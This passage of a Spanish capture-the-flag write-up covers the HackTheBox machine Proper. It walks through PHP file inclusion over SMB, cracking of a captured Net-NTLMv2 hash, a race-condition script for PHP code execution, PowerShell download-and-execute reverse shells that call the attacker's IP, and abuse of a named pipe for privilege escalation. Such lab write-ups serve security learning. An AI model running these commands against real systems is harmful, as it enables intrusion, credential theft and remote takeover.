10.10.10.231 - - [25/Mar/2021 25:25:25] code 404, message File not found
10.10.10.231 - - [25/Mar/2021 25:25:25] "GET /locuras/header.inc HTTP/1.0" 404 -
```

😮 vemos en los errores de **PHP** que no esta habilitado el incluir archivos mediante una **URL**, pero obtenemos la petición en nuestro servidor de **Python**, probemos a ver que podemos lograr con esto...

* Siempre hará la petición buscando un archivo `header.inc`.
* Esto lo hace concatenando el directorio (payload que le podemos pasar) con `/header.inc`.

[.inc files](https://stackoverflow.com/questions/7129842/what-is-an-inc-and-why-use-it):

![321google_incFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321google_incFiles.png)

Jugando un rato -logramos- extraer los archivos `header.inc` de cada *theme*, esto usando [wrappers](https://www.php.net/manual/en/wrappers.php) (antes vimos que el **wrapper** `http` estaba deshabilitado), por ejemplo usando el **wrapper** `php://` para que junto a un filtro convierta el contenido de un archivo a `base64` (esto es importante para archivos `PHP`, ya que son interpretados y no podríamos ver su contenido si los llamamos así como así e.e) para posteriormente copiar la cadena, decodearla y guardar su resultado en un archivo. 

Así veríamos el contenido del archivo, hagámoslo para el `header.inc` del *theme* `solar`:

* [**PHP** wrappers - Cheat Sheet](https://ironhackers.es/herramientas/lfi-cheat-sheet/).

(***Agregué el tomar el payload desde la terminal, que pereza estar entrando a cambiarlo a mano :P***)

```bash
❭ python3 licenses.py "php://filter/convert.base64-encode/resource=solar"

[+] "Theme": php://filter/convert.base64-encode/resource=solar -> ?theme=php://filter/convert.base64-encode/resource=solar&h=da608eae83164e4c3ff7d60869eeed12

PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDx0aXRsZT5MaWNlbnNlczwvdGl0bGU+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEiPgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJzb2xhci9ib290c3RyYXAubWluLmNzcyI+CiAgPC9oZWFkPgo=
```

🔢 ***Archivo [licenses.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/proper/licenses.py) final***.

Lo que hace por detrás la función del código **PHP** es: 

```php
include(php://filter/convert.base64-encode/resource=solar/header.inc)
```

Tomamos la cadena, la decodeamos y guardamos en un archivo:

```bash
❭ echo "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KICA8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4KICAgIDx0aXRsZT5MaWNlbnNlczwvdGl0bGU+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEiPgogICAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJzb2xhci9ib290c3RyYXAubWluLmNzcyI+CiAgPC9oZWFkPgo=" | base64 -d > solarheader.inc
```

Yyy:

```bash
❭ cat solarheader.inc
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Licenses</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="solar/bootstrap.min.css">
  </head>
```

Solamente vemos las cabeceras que llaman el `css` de cada ***theme***, o sea para cambiar el fondo de la web :(

🏋️ Simplemente unos recursos que me gustaron, pero en la práctica no me funcionaron 😥:

* [Exploit LFI bug when a inc php is appended to the file name](https://security.stackexchange.com/questions/181704/exploit-lfi-bug-when-a-inc-php-is-appended-to-the-file-name).
* [Exploiting local file inclusion LFI using php wrapper](https://gupta-bless.medium.com/exploiting-local-file-inclusion-lfi-using-php-wrapper-89904478b225).

---

## Jugando con el <u>RFI</u> interceptamos un hash **NTLMv2** [#](#found-ntlmv2) {#found-ntlmv2}

Encontramos [este recurso](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion) y leyendo vemos un paso que no habíamos intentado:

🎫 **Bypass allow_url_include**:

> When `allow_url_include` and `allow_url_fopen` are set to Off. It is still possible to include a remote file on Windows box using the `smb protocol`.

Ojiiiiiito, no habíamos intentado el compartirnos una carpeta con **SMB** y desde el **RFI** intentar conectarnos a ella, probémoslo...

Si recordamos, `allow_url_include` esta seteado a `0` (o sea apagado *Off*), lo vimos cuando intentamos llamar el recurso a través de nuestra URL... Así que podemos probar los siguientes pasos:

1. Compartir una carpeta mediante **SMB** donde tengamos el archivo que queramos llamar.
2. Y desde la petición agregar `\\<ip>\<folder>\<file>`

Entonces, levantemos el servidor SMB, donde la carpeta compartida se llama `smbFolder` y tomara todos los archivos de la ruta actual (`$(pwd)`):

```bash
❭ python3 smbserver.py smbFolder $(pwd) -smb2support
```

Creamos un archivo (`toctoc.php`) y tendrá este contenido (o cualquier otro):

**Podemos hacer el mismo proceso, pero con el archivo `header.inc`, solo que en la petición pondríamos únicamente nuestra carpeta compartida (recordemos que la misma función agrega `/header.inc` al final).**

```php
❭ cat toctoc.php
<?php system("ping -c 1 10.10.14.178"); ?>
```

> Aunque si todo va bien, deberíamos ver el error de `tempering`, ya que `<?` existe en el archivo...

Y desde la petición hacemos:

```bash
❭ python3 licenses.py "\\\10.10.14.178\\smbFolder\\toctoc.php"
...
```

En nuestra carpeta compartida tenemos respuesta:

```bash
[*] Incoming connection (10.10.10.231,63214)
[*] AUTHENTICATE_MESSAGE (PROPER\web,PROPER)
[*] User PROPER\web authenticated successfully
[*] web::PROPER:aaaaaaaaaaaaaaaa:daf4f08da81ca1e00259289c66835220:010100000000000080b0c6bcc921d701671afff0fbf20627000000000100100070006d004f005a00460041007a006f000300100070006d004f005a00460041007a006f000200100075004100590057004200610076004f000400100075004100590057004200610076004f000700080080b0c6bcc921d7010600040002000000080030003000000000000000000000000020000085e4cbc8f5cc59435a6b4c52725d8e804fa85d00514be6c0b958277c8fa029f80a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100370038000000000000000000
[*] Closing down connection (10.10.10.231,63214)
[*] Remaining connections []
...
# Lo hace muchas veces, asi que obtenemos varias veces una respuesta.
```

Opa, tenemos el hash [Net NTLMv2](https://geeks.ms/juansa/2008/12/26/seguridad-autenticarse-ntlm-ntlmv2-kerberos/) del usuario del servidor web, en este caso de `PROPER/web` :P Probemos a crackearla, quizás es débil... 

Tomamos `web::PROPER:a.....0000` y lo guardamos en un archivo, lo llamaré `hash` e intentamos crackearlo:

```bash
❭ john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

En un rato vemos esto:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
charlotte123!    (web)
1g 0:00:00:02 DONE (2021-03-26 25:25) 0.4629g/s 458800p/s 458800c/s 458800C/s charlotte1990..charlieishot
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Perfectooooooooooooooooo, tenemos una contraseña del usuario **web** (: peroooo ¿dónde las usamos? :O En el portal de licencias no logramos nada jugando con mails...

* Pa leer: [**NTLM relay** y explicaciones interesantes](https://en.hackndo.com/ntlm-relay/).
* Pa ver: [Youtube - **S4vitar** explicando **Net-NTLM**](https://www.youtube.com/watch?v=fIGvOGrdxyc&t=2794s).

Volviendo a la respuesta de la petición que hicimos hacia nuestra carpeta compartida nos da un fallo todo lindo (pero al menos es diferente):

```php
<!-- [2] include(\\10.10.14.178\smbFolder\toctoc.php/header.inc): failed to open stream: Invalid argument
```

🎺 ***Jugué con `null bytes`, agregando `URL Encode` (sale el error del `tampering`), di espacios para que tomara el archivo del folder y después el header, agregue dentro del archivo `header.inc` código `PHP` y código `html` para ver si lo interpretaba o al menos no salía el error anterior*****, pero nada :(**

> Acá estoy dudando si es que mi carpeta compartida en `SMB` tiene algún error (ya que sale el error `Invalid Argument`, y buscando referencian que es por no escapar `\`, pero si las escapé) o no sé si es que deba salir ese error pero que por detrás si se esta subiendo el archivo... De las pruebas que he hecho no veo que esto último este pasando.

...

De pura locura me puse a revisar el archivo `smbserver.py` (porque si) y me di cuenta de que podemos levantar la carpeta compartida con un usuario... ¿Y si intentamos compartirla como si fuéramos `web`? Quizás el problema es la autenticación y por eso no lograba la conexión con el archivo, intentémoslo:

```bash
❭ python3 smbserver.py smbFolder $(pwd) -smb2support -username web -password "charlotte123!"
```

Y ahora lanzamos la petición a ver si lee nuestro archivo, usemos el `header.inc` de `solar` pero con una modificación para identificarlo:

```bash
❭ cat header.inc
<h2>Este es mi tema perri</h2>
```

```bash
❭ python3 licenses.py "\\\10.10.14.178\\smbFolder"
```

Recibimos en nuestra carpeta compartida:

```bash
...
[*] Incoming connection (10.10.10.231,61502)
[*] AUTHENTICATE_MESSAGE (PROPER\web,PROPER)
[*] User PROPER\web authenticated successfully
[*] web::PROPER:aaaaaaaaaaaaaaaa:c806c7a6bcdc62ef33e516d7483e4856:0101000000000000005dc3b16922d70131c01ee481185b30000000000100100044006a007a004e0057007200450044000300100044006a007a004e0057007200450044000200100077004300750050006200490047005900040010007700430075005000620049004700590007000800005dc3b16922d70106000400020000000800300030000000000000000000000000200000094df3dcd57d3446771048246011a53ff8eff1656c86731c3bcd89f72886362a0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100370038000000000000000000
[*] Connecting Share(1:SMBFOLDER)
[*] Disconnecting Share(1:SMBFOLDER)
[*] Closing down connection (10.10.10.231,61502) 
[*] Remaining connections []
```

Y en la petición vemos:

```bash
...
[+] "Theme": \\10.10.14.178\smbFolder -> ?theme=\\10.10.14.178\smbFolder&h=9958fc71043a62ab691ff2a8f9e77b52
<!DOCTYPE html>
    <h2>Este es mi tema perri</h2>
    <html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Licenses</title>
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="solar/bootstrap.min.css">
    </head>

  <body>
  ...
...
```

PERFECTOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOoowowowo

> Lo que hace es: `include(\\10.10.14.178\smbFolder/header.inc)`.

En `Burp` se ve más lindo:

![321burp_RFI_headerINC_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321burp_RFI_headerINC_done.png)

Bien bien, tenemos entonces [Remote File Inclusion](https://www.cyberseguridad.net/inclusion-de-ficheros-remotos-rfi-remote-file-inclusion-ataques-informaticos-ii) confirmado (que resumidamente es incluir un archivo externo al servidor).

Ahora debemos lidiar con `strpos`, a ver como podemos bypassear esa parte y lograr subir nuestra Shell... O que interprete nuestro archivo externo.

```bash
❭ cat header.inc
<h2>Este es mi tema perri</h2>
```

Y obtenemos efectivamente el error:

```bash
❭ python3 licenses.py "\\\10.10.14.178\\smbFolder"

[+] "Theme": \\10.10.14.178\smbFolder -> ?theme=\\10.10.14.178\smbFolder&h=9958fc71043a62ab691ff2a8f9e77b52
Forbidden - Tampering attempt detected.
```

Intentando crear un payload (llamado `header.inc`) con `msfvenom` para inyectarlo en la web logramos que lo lea, pero no que lo interprete. Así que si o si debemos inyectar código `.php` para que sea interpretado (ejecutado) por la web...

---

## Intentamos <u>Race Condition</u> para sobreescribir contenido del objeto <u>header.inc</u> con código <u>PHP</u> [📌](#web-racecondition) {#web-racecondition}

Jmmm dándole varias vueltas podemos pensar algo: La web esta buscando el archivo `header.inc` cierto? Listo, lo creamos en nuestra carpeta compartida y la web logra leerlo YYY ejecutarlo... Acá fácil, pero no podemos simplemente cambiar el contenido del archivo por código `p`, ya que la primera validación es que si encuentra `<?` dentro del contenido del archivo, el proceso será cancela y nos mostrara un error... 

Pero ¿y si intentamos modificar el contenido del archivo `header.inc` por código `php` al mismo tiempo en que la web lo busca al hacer la solicitud? WTF

Podríamos hacer que inicialmente tome el contenido del archivo `header.inc` (HTML to lindo sin `<?`), esto hará que pase el filtro de la función `strpos` y mientras hace el `include` modificamos el contenido del archivo para que tome nuestro payload y finalmente estaría interpretándolo... 

Que sería un `race condition`, donde existe un proceso ejecutándose peeeero nosotros al mismo tiempo intentamos ser más rápidos y así ejecutar lo que necesitemos dentro de ese proceso (**ganar**, por eso es llamada **race**)...

⚠️🛑⚠️ **Esto son pequeños spoilers de máquinas retiradas, por si algo :P** ⚠️🛑⚠️

* [**IppSec** lo usa para hacer un link simbólico al **id_rsa** de un usuario, donde realmente debería estar mostrando un simple mensaje](https://www.youtube.com/watch?v=BFSdJYS1gFs&t=4600).
* [**IppSec** de nuevo nos muestra como logra inyectar código **PHP** mientras sube un archivo que no debería tener **PHP**](https://www.youtube.com/watch?v=ehoh6g5dSWk&t=3560s).
* [**0xdf** explica detalladamente como hacer un link simbólico de nuevo al **id_rsa** mientras se genera un simple mensaje](https://0xdf.gitlab.io/2020/08/29/htb-quick.html#method-1-read-as-srvadm).

Esta imagen me gusto mucho, es tomada de [acá](https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html), pero creo que originalmente es tomada de [este graaaaaaaan articulo](http://dann.com.br/php-winning-the-race-condition-vs-temporary-file-upload-alternative-way-to-easy_php-n1ctf2018/):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321google_condicion_carrera_php.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

Bien, ahora que sabemos que es un `race condition`, intentémoslo mediante un `script` que ejecutaremos después de lanzar la petición:

> Voy a crear una carpeta llamada `header` en donde estará el archivo `header.inc` simplemente, así es más sencillo hacer todo :P

**raceee.sh**:

```bash
#!/bin/bash

# Nos situamos donde este header.inc y lo regeneramos con contenido valido
cd header/
cat ../baksolarheader > header.inc

for i in {1..5000}; do
    # Bucle sobre todos los archivos de la carpeta header/
    for file in *; do
        # Si el archivo existe y tenemos permisos de lectura...
        if [[ -r $file ]]; then
            # Borramos y generamos el nuevo header.inc pero con el contenido PHP, esto 5000 veces
            rm -rf $file
            cat ../ajatuque.php > $file

            # O mediante un link simbolico al archivo PHP
            #ln -f -s ../ajatuque.php $file
        fi
    done
done

# Dejamos todo como estaba...
rm -rf $file
cat ../baksolarheader > header.inc
```

Entonces el script sencillamente itera 5000 veces, donde cada una recorre los archivo de la carpeta `header/` (que solo tiene `header.inc`) y una vez tenemos el nombre del archivo (con `$file`, o sea que sería siempre igual a `header.inc`), lo borramos y copiamos el contenido del archivo `PHP` (con el código a inyectar) sobre uno llamado `header.inc` en la misma ruta...

O también podríamos hacer el proceso, pero que en vez de copiar el contenido del `PHP` nos genere un link simbólico hacia él y una vez lea (llame/tome/etc) el archivo `header.inc` estaría leyendo realmente el contenido del archivo `PHP`. De cualquiera de las dos formas sirve, entonces probemos:

En el archivo `PHP` vamos a simplemente agregar unas líneas que nos impriman un mensaje y nos ejecuten un comando en el sistema, así sabemos si esta siendo interpretado y si tenemos `RCE`, como ya vimos se llama `ajatuque.php`:

```php
<?php 
    echo "\nPuede ser fayt?\n"; 
    $coma=shell_exec("whoami"); 
    echo $coma; 
?>
```

Creamos de nuevo nuestra carpeta compartida por `SMB` pero ahora apuntando al directorio `/header`.

```bash
❭ python3 smbserver.py smbFolder $(pwd)/header -smb2support -username web -password "charlotte123!"
```

Estos dos pasos los tenemos que hacer casi simultáneos, solo debemos darle unos 2-3 segundos a la petición, para que se haga primero y tome el contenido **válido** del archivo `header.inc` (bypasseamos `strpos`) y ahí si ejecutamos el script para que modifique el contenido del `.inc`.

Lanzamos petición:

```bash
❭ python3 licenses.py "\\\10.10.14.178\\smbFolder"
```

Esperamos 2 segundos y ejecutamos el script, vemos respuesta en nuestra carpeta `SMB` y como el resultado en la petición es:

```bash
❭ python3 licenses.py "\\\10.10.14.178\\smbFolder"

[+] "Theme": \\10.10.14.178\smbFolder -> ?theme=\\10.10.14.178\smbFolder&h=9958fc71043a62ab691ff2a8f9e77b52

Puede ser fayt?
proper\web

  <body>
  ...
...
```

![321bash_race_condition_won_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_race_condition_won_RCE.png)

Claro que siiiiiiiiiii, tenemos ejecución remota de comandos mediante un `race condition`... 

**¡Que lindura oiga!**

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321google_gif_wellLETSgo.gif" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Listos, pues ahora intentemos generar una Reverse Shell: 

Lo haremos mediante el archivo `Invoke-PowerShellTcp.ps1` del repo [nishang](https://github.com/samratashok/nishang/tree/master/Shells):

Entonces, nos clonamos el repo (o solo el archivo, yo le cambié el nombre a `IpsTcp.ps1`), lo abrimos y nos copiamos (o movemos) esta línea:

```powershell
❭ cat IpsTcp.ps1
...
# Aprox linea 18
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
...
```

Nos vamos al final del archivo y la pegamos, pero cambiando la IP y el PUERTO donde queremos recibir la Reverse Shell, también le quitamos el `PS >` del inicio:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.178 -Port 4433
```

Guardamos...

Lo que haremos será indicarle mediante el `RCE` que haga una petición a este archivo, lo leerá, pero como al final tenemos una línea sin comentarios y dispuesta a ser ejecutada, hará eso, interpretara el archivo y se ejecutara esa línea, la cual hará la petición hacia esa dirección IP y el puerto, que es donde estaremos escuchando y nos devolverá una PowerShell :)

Modificamos el comando en el archivo:

```php
<?php 

system("powershell -c \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.178:8000/IpsTcp.ps1')\"");

?>
```

* Levantamos el servidor web: `python3 -m http.server`. 
* Nos ponemos en escucha por el puerto `4433`: `rlwrap nc -lvp 4433`. 
* Ejecutamos petición al la carpeta compartida: `python3 licenses.py "\\\10.10.14.178\\smbFolder"`.
* Esperamos 2-3 segundos y ejecutamos el script `raceee.sh`.
* Yyyy:

![321bash_webSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_webSH.png)

Listos, tenemos una PowerShell como el usuario `web` dentro del sistema :) En este caso no podemos hacer tratamiento de.... ¿Qué no? JAAAAA! Dando vueltas encontramos un recurso que nos permite obtener una consola **PowerShell** Full TTY, en la que podemos hacer **CTRL+C**, tener histórico de comandos y movernos entre ellos:

* [https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell).

Siguiendo los pasos del repo, nos indica el uso, descarguemos el archivo en la máquina para migrarnossss:

```powershell
PS C:\\Users\web\Videos> certutil.exe -f -urlcache -split http://10.10.14.164:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1
```

En nuestra máquina atacante nos ponemos en escucha y vemos el tamaño de nuestra pantalla, esto lo usaremos ahorita:

```bash
❭ stty size
43 192
❭ nc -lvp 4434
listening on [any] 4434 ...
``` 

Y ejecutamos en la máquina víctima la petición:

```powershell
PS C:\\Users\web\Videos> IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell -RemoteIp 10.10.14.164 -RemotePort 4434 -Rows 43 -Cols 192
```

Recibimos la petición y ahora hacemos el tratamiento normal de la TTY:

* Hacemos `CTRL + Z`.
* Escribimos `stty raw -echo`.
* Escribimos `fg` (aunque no se vea).
* Damos `enter` y tamos full.

---

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.164] from proper.htb [10.10.10.231] 49336
^Z
[1]+  Detenido                nc -lvp 4434

❭ stty raw -echo
# Acá va el "fg"
❭ nc -lvp 4434
       # Damos enter y obtenemos...
```

```powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\licenses>
```

Y tenemos una `PowerShell` totalmente interactivaaaaaaaaaaaaaaaaaaaaaaaaaaa. Podemos hacer `CTRL + C`, historial y movernos entre comandos. <span style="color: yellow;">QUÉ recursazo!!</span>

Ahora a enumerar...

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Dando vueltas en la raíz encontramos este recurso llamativo:

```powershell
PS C:\Program Files> dir

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/15/2020   4:05 AM                Cleanup
...
```

Dentro tenemos:

```powershell
PS C:\Program Files\Cleanup> dir

    Directory: C:\Program Files\Cleanup

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/15/2020   4:03 AM        2999808 client.exe
-a----       11/15/2020   9:22 AM            174 README.md
-a----       11/15/2020   5:20 AM        3041792 server.exe

```

Interesante, ejecutandolos tenemos:

```powershell
PS C:\Program Files\Cleanup> type README.md
# Cleanup

We find the garbage on your system and delete it!

## Changelog

- 31.10.2020 - Alpha Release

## Todo

- Create an awesome GUI
- Check additional paths
```

```powershell
PS C:\Program Files\Cleanup> .\client.exe
Cleaning C:\\Users\web\Downloads
```

Jmm esta borrando archivos de la ruta `C:\\Users\web\Downloads`:

```powershell
PS C:\Program Files\Cleanup> ls -force c:\\Users\web\Downloads
PS C:\Program Files\Cleanup> 
```

Y viendo el servidor:

```powershell
PS C:\Program Files\Cleanup> .\server.exe
Error: open \\.\pipe\cleanupPipe: Access is denied.
```

Vale, error al abrir un pipe (entiendo que debe ser un **named pipe**) llamado `cleanupPipe`.

> Un **pipe** es una sección de la memoria que los procesos pueden usar para comunicarse entre ellos.

* [Microsoft Docs - Pipes](https://docs.microsoft.com/en-us/windows/win32/ipc/pipes).
* [Named Pipes](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/named-pipe-client-impersonation).

Si ponemos algún archivo en la ruta `C:\\Users\web\Downloads` y ejecutamos el binario `client.exe` no lo borra :(

Aprovechemos la carpeta compartida que tenemos con `smbserver.py` y copiemos los binarios a nuestra máquina a ver si podemos obtener más info de ellos:

```powershell
PS C:\Program Files\Cleanup> copy client.exe \\10.10.14.164\smbFolder\client.exe
PS C:\Program Files\Cleanup> copy server.exe \\10.10.14.164\smbFolder\server.exe
```

Y en nuestra máquina ya los tendriamos:

```bash
~/sec/htb/proper/content/files/cleanup ·
❭ mv ../../../scripts/header/server.exe .
❭ mv ../../../scripts/header/client.exe .
❭ ls
client.exe  server.exe
```

---

## Hacemos análisis dinámico contra los binarios del proceso <u>Cleanup</u> [📌](#cleanup-analysis) {#cleanup-analysis}

Validando si encontramos algo útil, alguna cadena interesante o leakeada, vemos:

```bash
❭ strings client.exe 
...
main.serviceClean
main.serviceRestore
main.clean
main.restore
main.main
```

(Validando el inicio de este output, vemos esto: `Go build ID: ...`. Es interesante porque podemos pensar desde ya que son binarios hechos en `Go`, pueda que sea necesario saberlo.)

Tenemos lo que deben ser la funciones del programa, que el principal debe ser `main.main` y de ahí se van derivando las funcionalidades. Si nos fijamos esta la función (eso creemos) `cl, pero también hay una llamada `restore`, esto esta interesante... Pero ni idea como será el proceso para llegar a ella. 

Viendo el servidor:

```bash
❭ strings server.exe
...
main.encrypt
main.decrypt
main.handle
main.clean
main.restore
main.createServer
main.main
```

Jmmm cuenta con más funciones (seguimos creyendo :P), en este caso con dos llamativas, `encrypt` y `decrypt`, pero ni idea de su funcionamiento...

En este punto podemos pensar en hacer algo de **reversing** a ver si logramos entender (o creer entender) que esta haciendo y si podemos aprovecharnos de algo. **Pero antes de hacer esto**, hagamos un análisis dinámico, o sea con los programas en ejecución a ver si logramos ver algo distinto. Tengo unos problemas con `wine`, así que lo mejor será movernos a una máquina virtual **Windows** para probar los binarios...

Estando dentro e intentando ejecutar `cl, pero sin el servidor (`server.exe`) activo obtenemos el mismo output que antes, pero no se borra nada:

![321win_trying_clean_files](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_trying_clean_files.png)

Si activamos el servidor (necesitas ejecutarlo con permisos de **Administrador**) y volvemos a intentar tenemos:

![321win_trying_clean_files_with_servON_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_trying_clean_files_with_servON_fail.png)

Nada. No borra nada... Después de jugar un rato, agregando cualquier tipo de archivos, a mano, de internet, etc. Logramos al menos ver un output diferente después de varios intentos:

![321win_trying_clean_files_with_servON_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_trying_clean_files_with_servON_done.png)

Opa vemos que el output del cliente es el mismo, pero en el server obtenemos un `CLEAN <path_file>`. 

Bueno al menos tenemos algo distinto, pero es muy raro porque si volvemos a generar ese archivo (`.lnk`) o incluso otros, los borraba y obteníamos el output `CL, pero al intentarlo de nuevo (para tomar el screen de que algo pasaba :P) no los volvía a borrar :(

Pero bueno, sabemos que si esta funcionando, raro, pero funcionando...

Podríamos pensar que el `restore` debe ser como un "recuperar lo que se ha borrado" (creo que tiene lógica). 

Intentando de alguna forma ejecutar el `restore` con cosas como:

* Borrar y ver si en algún momento se restauraba automáticamente.
* `client.exe MicrosoftEdge.lnk --restore`.
* Otras cositas raras...

Nada. 

Peeeeeeeeeeeeeeeeeeero si intentamos por ejemplo:

* `client.exe -R MicrosoftEdge.lnk`.

Obtenemos:

![321win_trying_restore_files](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321win_trying_restore_files.png)

Opaaaaa obtenemos en el cliente el mensaje `Restoring <file_name>`, y el servidor hace un `open` al archivo que solicitamos, pero pasa el nombre a `base64` yyyyyyyy además lo esta buscando sobre la ruta `C:\ProgramData\Cleanup`... Interesantemente extraño.

```bash
❭ echo "MicrosoftEdge.lnk" | base64
TWljcm9zb2Z0RWRnZS5sbmsK
❭ echo "TWljcm9zb2Z0RWRnZS5sbms=" | base64 -d
MicrosoftEdge.lnk
❭ echo "TWljcm9zb2Z0RWRnZS5sbmsK" | base64 -d
MicrosoftEdge.lnk
```

...

Después probando con `Reversing` logramos ver la instrucción `-R` (en hex) esperando ser ejecutada, en este caso tuvimos suerte y dimos con la `R` sin necesitarlo, pero si no, pues esa parte estaría en el writeup 🤪 (pa que no quede taaaan largo)

...

## Interactuamos con el <u>pipe</u> que usa <u>Cleanup</u> [📌](#cleanup-pipe) {#cleanup-pipe}

En este punto estuve bastante perdido en el funcionamiento de lo que quería hacer. Si lo pensamos podemos intuir rápidamente que debemos/deberíamos intentar, pero el "como" fue lo que me estuvo quemando el cerebro (aunque al final es muuuuuuuuuuuuuuuuy sencillo):

* Sabemos que borra un archivo y en el servidor llega `CLEAN` cuando lo hace.
* Ese archivo lo quita de la ruta original y lo copia/mueve con un nombre en **base64** en la ruta `C:\ProgramData\Cleanup`.
* Si queremos hacerle un `restore` al archivo, tenemos que pasarle el parámetro `-R` con el nombre del archivo borrado (ruta) en texto plano.
* Tomara ese texto plano, generara la cadena en **base64** y la buscara en la ruta `C:\ProgramData\Cleanup`, si lo encuentra, lo regenera a la ruta de donde se borró...
* Entonces podemos buscar alguna manera de indicarle al `pipe` **cleanupPipe** que borre (por ejemplo) el archivo `root.txt` (suponemos que esta en `C:\\Users\Administrator\Desktop`).
* Aprovecharnos de que el archivo queda encriptado en la ruta `C:\ProgramData\Cleanup` y ver como podemos restaurarlo para ver su contenido...

Entonces, si queremos "hablar" con el `pipe` podemos apoyarnos de **PowerShell**, buscando encontramos algunos recursos para guiarnos en nuestro script:

* [stackoverflow - Asynchronous named pipes in **powershell** using callbacks](https://stackoverflow.com/questions/31338421/asynchronous-named-pipes-in-powershell-using-callbacks).
* [stackoverflow - **PowerShell** Named Pipe: no connection?](https://stackoverflow.com/questions/24096969/powershell-named-pipe-no-connection).
* [**PowerShell** Named Pipes](https://gbegerow.wordpress.com/tag/powershell-named-pipes/).
* **(Me falta un recurso que se me perdió (que casualidad 😠 :sad:), pero de ahí viene esta parte del writeup)**.

**Por si se quieren saltar esta parte en la que entendemos como interactúa el `pipe` con los servicios usando `IO Ninja` y, pero que también perdemos tiempo con un script, les hice un regalo:**

⏳ [TEST - Usando **IO Ninja** para entender los procesos que hace el **pipe** (gracias **<u>4st1nus</u>**)](#cleanup-ioninja).<br>
⌛ [DONE - Viendo el contenido de cualquier archivo del sistema](#cleanup-readfiles).

...

## Usando <u>IO Ninja</u> para ver procesos del <u>pipe</u> [📌](#cleanup-ioninja) {#cleanup-ioninja}

> De nuevo, gracias <u>4st1nus</u>.

En el recurso perdido encontramos esta estructura guapetona:

```powershell
c:\Program Files\Cleanup>type writer.ps1
```

```powershell
# Define el nombre del pipe
$PipeName = 'cleanupPipe'
$PipeDir  = [System.IO.Pipes.PipeDirection]::Out
$PipeOpt  = [System.IO.Pipes.PipeOptions]::Asynchronous

# Acá almacena lo que se envia al pipe mediante un input por consola
$Message = Read-Host "Put message to send to pipe"

try {
    # Crea la comunicación con el pipe
    $pipeClient = new-object System.IO.Pipes.NamedPipeClientStream('.', $PipeName, $PipeDir, $PipeOpt)
    # Crea el objeto que nos permite enviarle la data al pipe
    $sw = new-object System.IO.StreamWriter($pipeClient)
    $pipeClient.Connect()

    if (!$pipeClient.IsConnected) {
        throw "Failed to connect client to pipe $pipeName"
    }

    $sw.AutoFlush = $true
    # Envia el "mensaje" al pipe
    $sw.WriteLine($Message)
}

catch {
    Write-Host "Error sending pipe message: $_" -ForegroundColor Red
}

finally {
    # Entiendo que limpia las variables y cierra la conexion con el pipe
    if ($sw) {
        $sw.Dispose()
        $sw = $null
    }
    if ($pipeClient) {
        $pipeClient.Dispose()
        $pipeClient = $null
    }
}
```

Entonces, la idea es que al ejecutarlo nos pedirá algo que será enviado al **Pipe**, le indicaremos `CLEAN C:\algo`, y esto llegara (***ojalá***) al servidor (`server.exe`) para ser procesado...

Generemos un archivo para hacer las pruebas:

```powershell
c:\Program Files\Cleanup>echo "a vel" > C:\\Users\Varg\Desktop\aja.txt
```

